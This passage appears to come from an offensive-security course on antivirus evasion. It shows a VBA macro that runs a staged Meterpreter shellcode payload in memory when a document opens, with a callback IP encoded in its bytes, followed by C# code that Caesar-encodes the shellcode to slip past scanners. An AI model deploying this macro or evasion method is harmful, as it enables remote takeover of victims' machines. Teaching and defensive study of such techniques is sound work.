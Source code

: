 ```
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```

> Listing 35 - Full VBA script to execute Meterpreter staged payload in memory

When we save this code in a document and scan it with AntiScan.Me, we find that it is detected by seven products:

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/84947c35a2e7f40f764534c7f81da415-avi_vba_plain1.png" alt="Figure 14: Detection rate for VBA shellcode runner"><figcaption><p>Figure 14: Detection rate for VBA shellcode runner</p></figcaption></figure>

Although this is a better result than the original C# shellcode runner (which was detected by 11 products), let's try to improve our results by encrypting the shellcode with a Caesar cipher. To do this, we'll need to encrypt the shellcode in an output format suitable for VBA.

We'll reuse the previous C# project to encrypt the shellcode and then copy the encrypted result into the VBA macro. For a VBA format, we'll use decimal values instead of hexadecimal as noted at line number 12 of the listing below. We'll then split the encrypted shellcode on multiple lines at line number 16 in order to handle the maximum size issues of literal strings:

```
1   byte[] encoded = new byte[buf.Length];
2   for(int i = 0; i < buf.Length; i++)
3   {
4     encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
5   }
6 
7   uint counter = 0;
8 
9   StringBuilder hex = new StringBuilder(encoded.Length * 2);
10  foreach(byte b in encoded)
11  {
12    hex.AppendFormat("{0:D}, ", b);
13    counter++;
14    if(counter % 50 == 0)
15    {
16        hex.AppendFormat("_{0}", Environment.NewLine);
17    }
18  }
19  Console.WriteLine("The payload is: " + hex.ToString());
```
